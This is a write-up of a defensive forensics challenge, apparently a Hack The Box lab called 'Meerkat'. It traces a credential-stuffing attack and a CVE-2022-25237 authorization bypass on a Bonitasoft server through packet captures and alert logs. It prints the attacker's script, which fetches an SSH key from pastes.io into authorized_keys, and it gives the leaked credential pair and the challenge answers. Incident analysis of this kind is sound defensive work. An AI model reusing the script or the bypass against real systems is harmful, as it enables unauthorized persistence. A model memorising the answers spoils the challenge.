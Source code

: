 # Meerkat

## Speech
```
As a fast-growing startup, Forela has been utilising a business management platform. Unfortunately, our documentation is scarce, and our administrators aren't the most security aware. As our new security provider we'd like you to have a look at some PCAP and log data we have exported to confirm if we have (or have not) been compromised.
```

## Analysis
- Two files, a pcap and a json, I opened the pcap with wireshark and i'll use jq for analysing the json file.

### Wireshark
1. The packets protocol analysis tell us they are some HTTP and SSH (both can be very interesting)
![Wireshark Packets Protocl Analysis](../../img/Meerkat/00_packets_protocol_analysis.png)
2. I'll focus on the HTTP, I ordered by protocol and go on http
! [The beginning of HTTP packets](../../img/Meerkat/01_http_overview.png)
3. We see a lot of 401 from the endpoint */bonita/loginservice*, probably a Brute force, we can look at the packets to see the *HTLM Form* arguments passed and see the "payload" of the attacker
    - We see a lot of "username = "install" & "password" = "install" (not very interesting) but between those we have email of *forela.co.uk* (the company we work for) with not common password, the attacker is probably using a leak of email/password to try to connect (**Credential Stuffing**)
    - Also intersting to see the user-agent is : `python-requests/2.28.1`, so an automated tool/script
    - The IP of the attacker : 156.146.62.213
4. We find the packet with a success connection (packet 2918)
![Connection success](../../img/Meerkat/02_success_brute_force.png)
5. Packet 2921 is very interesting, the attacker uploaded a file
![Upload a malicious file](../../img/Meerkat/03_file_uploaded.png)
   - We can see the filename, also in the *Request URI we have info on how he bypass some restriction
6. After his upload he executed some code on the machine (like whoami or cat /etc/passwd)
7. Let's take a look at the DNS query, we see query to *pastes.io*, why pastes.io ?
    - Let's search for string pastes.io in all packet (Edit>Find Packet...) :
    ![Search for pastes.io](../../img/Meerkat/04_find_pastes_io.png)
    - He did a wget to : *https://pastes.io/raw/bx5gcr0et8* We can do the same, or just visit this webpage, we get :
    ```
    #!/bin/bash
    curl https://pastes.io/raw/hffgra4unv >> /home/ubuntu/.ssh/authorized_keys
    sudo service ssh restart
    ```
    - This file is a bash script, this bash script is adding a key to th authorized_keys file of the user .ssh

### JQ
1. I'll begin with a command to get all the alert from the Attacker's IP : `jq 'map(select(.src_ip == "156.146.62.213"))' meerkat-alerts.json`, then I added `| grep 'signature"'` to see what signature/type of alert was raised
    - Interesting signature, seems to be linked to the brute force (also contains the name of the software) : `"signature": "ET WEB_SPECIFIC_APPS Bonitasoft Default User Login Attempt M1 (Possible Staging for CVE-2022-25237)"`
    - Two others interesting signautre : `"ET EXPLOIT Bonitasoft Authorization Bypass and RCE Upload M1 (CVE-2022-25237)"` et `"ET EXPLOIT Bonitasoft Authorization Bypass M1 (CVE-2022-25237)"`
2. With this : `jq 'map(select(.alert.signature == "ET EXPLOIT Bonitasoft Authorization Bypass and RCE Upload M1 (CVE-2022-25237)" or .alert.signature == "ET EXPLOIT Bonitasoft Authorization Bypass M1 (CVE-2022-25237)"))' meerkat-alerts.json` But nothing really interesting :/
Now let's go on the Questions, in order to see what we have already answer and not yet find

## Questions
1. We believe our Business Management Platform server has been compromised. Please can you confirm the name of the application running?
    - Bonitasoft (cf. Analysis>JQ>1)
2. We believe the attacker may have used a subset of the brute forcing attack category - what is the name of the attack carried out?
    - *Credential Stuffing (cf. Analysis>Wireshark>3)
3. Does the vulnerability exploited have a CVE assigned - and if so, which one?
    - CVE-2022-25237 (cf. Analysis>JQ>1)
4. Which string was appended to the API URL path to bypass the authorization filter by the attacker's exploit?
    - i18ntranslation (cf. Analysis>Wireshark>5)
5. How many combinations of usernames and passwords were used in the credential stuffing attack?
    - 56 (I took the command from the Analysis>JQ>1 and then count)
    ![Count number of combinations](../../img/Meerkat/05_count_number_tentatives.png)
6. Which username and password combination was successful?
    - seb.broom@forela.co.uk:g0vernm3nt (cf Analysis>Wireshark>4)
7. If any, which text sharing site did the attacker utilise?
    - pastes.io (cf. Analysis>Wireshark>7)
8. Please provide the filename of the public key used by the attacker to gain persistence on our host.
    - hffgra4unv (cf. Analysis>Wireshark>7)
9. Can you confirmed the file modified by the attacker to gain persistence?
    - /home/ubuntu/.ssh/authorized_keys (cf. Analysis>Wireshark>7)
10. Can you confirm the MITRE technique ID of this type of persistence mechanism?
    - T1098.004 (After a little bit of research we found : [Account Manipulation: SSH Authorized Keys](https://attack.mitre.org/techniques/T1098/004/))